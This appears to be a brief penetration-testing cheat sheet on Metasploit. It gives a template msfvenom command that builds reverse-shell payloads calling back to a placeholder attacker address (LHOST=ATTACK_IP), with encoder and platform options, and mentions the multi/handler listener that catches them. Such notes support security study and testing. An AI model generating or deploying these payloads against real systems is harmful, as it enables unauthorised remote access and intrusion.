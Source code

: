 # MSFVENOM PAYLOAD

### Create payloads in one liner:

### msfvenom -p /payload/name LHOST=ATTACK_IP LPORT=PORT -f FILE_FORMAT -e ENCODER/ENCRYPTION -o OUTPUTFILE

### -a(x64/x86)=architecture

### --platform=(Windows/Linux/Android)

## HANDLER

### use exploit/multi/handler

### Used to catch MSFVenom payloads

### Supports ALL shells
